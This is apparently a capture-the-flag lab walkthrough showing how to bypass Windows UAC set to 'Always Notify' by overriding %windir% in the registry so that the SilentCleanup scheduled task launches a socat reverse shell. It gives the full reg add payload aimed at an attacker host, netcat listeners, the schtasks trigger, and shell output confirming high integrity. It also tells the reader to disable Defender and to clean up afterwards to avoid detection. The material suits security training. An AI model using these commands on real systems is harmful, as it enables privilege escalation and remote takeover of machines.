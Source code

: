 # Bypassing UAC: Environment Variable Expansion

## Bypassing "Always Notify"

On default Windows configurations, you can abuse system configuration applications to bypass UAC, as many have the `autoElevate` flag set in their manifests. However, if UAC is set to **"Always Notify"**, tools like `fodhelper` are ineffective because they require user approval via the UAC prompt. This blocks several known bypass methods, but not all hope is lost.

## Scheduled Task Abuse

Some scheduled tasks can be run by any user but execute with the highest privileges available to the caller. These tasks are designed to run without user interaction, regardless of the UAC security level. If a scheduled task requires elevation, it will automatically get it without prompting the user.

### Case Study: Disk Cleanup Scheduled Task

> **Note:** Disable Windows Defender for this task to avoid issues. Use the provided shortcut on your desktop to do so.

#### Task Scheduler Configuration

- The Disk Cleanup task runs with the **Users** account, inheriting the privileges of the calling user.
- The **Run with highest privileges** option uses the highest privilege token available (high IL for admins).
- If a non-admin invokes the task, it runs with medium IL, so the bypass won't work for them.

#### Actions and Settings

- The task can be run on-demand, executing:
    ```
    %windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
    ```
- Since the command uses environment variables, we can inject commands by overriding them.

#### Overriding `%windir%` via Registry

You can override `%windir%` by creating an entry in `HKCU\Environment`. For example, to execute a reverse shell using socat:

```sh
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM " /f
```

- The `&REM` at the end comments out the rest of the command.
- The resulting command executed by Disk Cleanup:
    ```
    cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%
    ```

## Exploit Steps

1. **Set up a listener for the reverse shell:**
     ```sh
     nc -lvp 4446
     ```

2. **Connect to the backdoor (if needed):**
     ```sh
     nc MACHINE_IP 9999
     ```

3. **Write the payload and execute the Disk Cleanup task:**
     ```sh
     reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f
     schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
     ```

4. **On the attacker's machine, you should receive a shell:**
     ```
     user@kali$ nc -lvp 4446
     Listening on 0.0.0.0 4446
     Connection received on 10.10.183.127 25631
     Microsoft Windows [Version 10.0.17763.1821]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32>whoami /groups | find "Label"
     Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
     ```

5. **Retrieve the Disk Cleanup flag:**
     ```sh
     C:\flags\GetFlag-diskcleanup.exe
     ```
     > *Note: The flag is only returned if you successfully bypassed UAC and have a high integrity shell via socat.*

## Cleanup

After exploiting, clean up the registry to avoid detection and restore system functionality:

```sh
reg delete "HKCU\Environment" /v "windir" /f
```

> **Note:** Removing the registry key is essential, as many Windows components rely on `%windir%`. Failure to do so may cause system issues.
